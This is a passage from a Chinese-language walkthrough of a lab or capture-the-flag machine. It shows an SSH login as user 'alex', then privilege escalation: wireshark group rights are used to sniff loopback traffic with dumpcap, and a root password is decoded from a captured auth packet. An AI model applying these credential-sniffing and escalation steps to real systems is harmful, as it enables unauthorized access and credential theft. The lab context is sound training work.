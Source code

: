 ssh 远程登陆，得到第一个 shell。

```
┌──(kali㉿kali)-[~]
└─$ ssh alex@192.168.56.102
The authenticity of host '192.168.56.102 (192.168.56.102)' can't be established.
ECDSA key fingerprint is SHA256:D96eRXXFR5bMxuGFCt8OvBzYYZjHSpu+ksPl5jliY80.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.102' (ECDSA) to the list of known hosts.
alex@192.168.56.102's password: 
[alex@websrv01 ~]$ id
uid=1002(alex) gid=1002(alex) groups=1002(alex),994(wireshark)
[alex@websrv01 ~]$ whoami
alex
[alex@websrv01 ~]$ ls
user.txt
[alex@websrv01 ~]$ cat user.txt 
Well done. Now to try and get root access.

Think outside of the box!
```

补充一下，其实这里还有一种方法获取 shell，该版本的 phpbb 存在远程命令执行，使用邮件中的账号可以以管理员登陆。）

##### 2.2 权限提权  

用户 alex 文件夹下有一个 wireshark 文件夹，同时还发现 alex 属于 wireshark 用户组。

```
[alex@websrv01 ~]$ ls -all
total 20
drwx------. 3 alex alex 136 Jul 12 22:12 .
drwxr-xr-x. 6 root root  57 Jul 12 22:12 ..
lrwxrwxrwx. 1 root root   9 Jul 12 22:12 .bash_history -> /dev/null
-rw-r--r--. 1 alex alex  18 Apr  1  2020 .bash_logout
-rw-r--r--. 1 alex alex 193 Apr  1  2020 .bash_profile
-rw-r--r--. 1 alex alex 231 Apr  1  2020 .bashrc
-rwx------. 1 alex alex  70 Jul 12 22:06 user.txt
drwxr-xr-x. 2 alex alex  41 Jul 12 21:33 .wireshark
-rw-------. 1 alex alex 100 Jul 12 20:50 .Xauthority
[alex@websrv01 ~]$ cat /etc/group|grep wireshark
wireshark:x:994:alex
```

于是这里使用 dumpcap 抓取本地环回地址包一段时间，下载到本地使用 wireshark 解析。

```
[alex@websrv01 ~]$ dumpcap -w test.pcap -i lo
Capturing on 'Loopback'
File: test.pcap
Packets captured: 42
Packets received/dropped on interface 'Loopback': 42/0 (pcap:0/dumpcap:0/flushed:0) (100.0%)
```

发现有 Auth 包，base64 解码得到了 root 用户口令 ASfojoj2eozxczzmedlmedASASDKoj3o。
